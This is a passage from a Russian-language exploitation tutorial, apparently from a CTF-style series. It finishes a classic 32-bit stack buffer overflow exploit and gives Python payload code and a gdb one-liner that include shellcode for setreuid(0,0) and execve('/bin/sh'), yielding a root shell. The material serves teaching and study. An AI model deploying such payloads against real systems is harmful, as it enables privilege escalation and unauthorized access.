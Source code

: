Таким образом, разметить шелл-код я должен по тому же адресу, который содержит сохраненное значение регистра ESP. Если учесть еще два 32-байтных NOP-среза, в которые я облачу полезную нагрузку, и тот факт, что «прыгнуть» я собираюсь ровно на середину первой NOP-последовательности (`0xbfffedd4 = 0xbfffedc4 + 16`), то конечный вид эксплоита будет выглядеть так.

```python
ret_addr  = '\xbf\xff\xed\xd4'[::-1]
junk      = 'A' * 31
nop_sled  = '\x90' * 32
saved_esp = '\xbf\xff\xed\xc4'[::-1]

# setreuid(0,0) + execve("/bin/sh", ["/bin/sh", NULL])
shellcode = '\x6a\x46\x58\x31\xdb\x31\xc9\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80'

payload = ret_addr + nop_sled + shellcode + nop_sled + junk + saved_esp
```

Или в виде «однострочника».

```
gdb-peda$ r `python -c 'print "\xbf\xff\xed\xd4"[::-1] + "\x90"*32 + "\x6a\x46\x58\x31\xdb\x31\xc9\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "\x90"*32 + "A"*31 + "\xbf\xff\xed\xc4"[::-1]'`
```

[![gdb-peda-boundary-4-dash-id.png](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-boundary-4-dash-id.png)](/assets/images/pwn-kingdom/classic-stack-overflow/gdb-peda-boundary-4-dash-id.png)
{:.center-image}

Победа, игра окончена.


[//]: # (2019-09-20)